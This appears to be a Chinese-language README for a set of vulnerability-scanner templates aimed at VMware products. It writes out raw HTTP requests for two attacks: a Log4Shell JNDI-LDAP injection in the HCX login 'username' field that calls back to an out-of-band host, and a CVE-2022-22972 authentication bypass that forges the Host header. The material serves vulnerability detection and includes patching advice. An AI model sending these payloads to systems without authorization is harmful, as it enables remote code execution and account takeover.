 # 云平台与虚拟化安全模板分类说明

本目录聚焦于主流云平台与虚拟化产品（如 VMware、vRealize、Workspace ONE 等）的安全风险，涵盖未授权访问、远程代码执行、认证绕过等典型漏洞，帮助安全测试人员快速定位和验证相关风险。

---

## 分类说明

- **VMware 产品线**：如 Workspace ONE Access、Identity Manager、vRealize Automation、HCX 等，常见风险包括认证绕过、远程代码执行、信息泄露等。
- **其他云平台与虚拟化**：如 OpenStack、Xen、KVM 等，风险点多为接口未授权、配置不当、敏感信息泄露等。

---

## 典型漏洞模板举例

### 1. VMware HCX Log4j 远程代码执行漏洞（CVE-2021-44228）

**模板文件**：`vmware-hcx-log4j.yaml`

#### 漏洞简介

VMware HCX 集成了受影响版本的 Apache Log4j 组件，存在 JNDI 注入导致远程代码执行（Log4Shell，CVE-2021-44228）风险。攻击者可通过构造恶意请求，在无需认证的情况下远程执行任意命令，获取敏感信息或控制系统。

#### 漏洞原理

Log4j 在处理日志消息时，如果日志内容中包含 `${jndi:ldap://...}` 这样的字符串，会自动发起远程请求并加载恶意类，导致远程代码执行。此模板通过在登录接口的 `username` 字段注入 JNDI payload，若目标存在漏洞，将触发对攻击者控制的服务器的 DNS 或 LDAP 请求。

#### 检测逻辑（YAML内容解析）

```yaml
id: vmware-hcx-log4j

http:
  - raw:
      - |
        @timeout: 10s
        POST /hybridity/api/sessions HTTP/1.1
        Host: {{Hostname}}
        Accept: application/json
        Content-Type: application/json
        Origin: {{BaseURL}}

        {
          "authType": "password",
          "username": "${jndi:ldap://${:-{{rand1}}}${:-{{rand2}}}.${hostName}.username.{{interactsh-url}}}",
          "password": "admin"
        }

    matchers-condition: and
    matchers:
      - type: word
        part: interactsh_protocol
        words:
          - "dns"
      - type: regex
        part: interactsh_request
        regex:
          - '\d{6}\.([a-zA-Z0-9\.\-]+)\.([a-z0-9]+)\.([a-z0-9]+)\.([a-z0-9]+)\.\w+'
```

- 发送带有 JNDI payload 的 POST 请求到 `/hybridity/api/sessions`。
- 通过 OOB（如 interactsh）检测是否有 DNS/LDAP 请求回连，判定目标存在该漏洞。

#### 防护建议

- 升级 VMware HCX 及其依赖的 Log4j 组件至官方修复版本。
- 禁用 Log4j 的 JNDI 功能，或限制其加载远程类的能力。
- 对所有用户输入进行严格校验，避免日志记录敏感或可控内容。

---

### 2. VMware Workspace ONE Access/Identity Manager/vRealize Automation 认证绕过漏洞（CVE-2022-22972）

**模板文件**：`CVE-2022-22972.yaml`

#### 漏洞简介

VMware Workspace ONE Access、Identity Manager 和 vRealize Automation 存在认证绕过漏洞。攻击者可通过特定请求，绕过正常认证流程，直接获取管理员权限，危害极大。

#### 漏洞原理

该漏洞影响本地域用户，攻击者可通过构造特定的 GET 和 POST 请求，利用认证流程中的逻辑缺陷，绕过身份验证，获取系统访问权限。部分请求还可触发与攻击者交互的 OAST（Out-Of-Band Application Security Testing）检测。

#### 检测逻辑（YAML内容解析）

```yaml
id: CVE-2022-22972

http:
  - raw:
      - |
        GET /vcac/ HTTP/1.1
        Host: {{Hostname}}
      - |
        GET /vcac/?original_uri={{RootURL}}%2Fvcac HTTP/1.1
        Host: {{Hostname}}
      - |
        POST /SAAS/auth/login/embeddedauthbroker/callback HTTP/1.1
        Host: {{interactsh-url}}
        Content-type: application/x-www-form-urlencoded

        protected_state={{protected_state}}&userstore={{userstore}}&username=administrator&password=horizon&userstoreDisplay={{userstoreDisplay}}&horizonRelayState={{horizonRelayState}}&stickyConnectorId={{stickyConnectorId}}&action=Sign+in

    host-redirects: true
    max-redirects: 3

    matchers-condition: and
    matchers:
      - type: word
        part: header
        words:
          - "HZN="
      - type: word
        part: interactsh_protocol
        words:
          - "http"
      - type: status
        status:
          - 302

    extractors:
      - type: regex
        name: protected_state
        group: 1
        regex:
          - 'id="protected_state" value="([a-zA-Z0-9]+)"\/>'
        internal: true
        part: body
      # 其他参数提取同理
```

- 依次发起 GET 和 POST 请求，尝试绕过认证。
- 检查响应头、状态码和 OAST 回连，判定是否存在认证绕过。

#### 防护建议

- 立即升级 VMware Workspace ONE Access、Identity Manager 和 vRealize Automation 至官方修复版本。
- 加强认证流程校验，避免逻辑绕过。
- 限制管理接口的网络暴露，仅允许可信网络访问。

---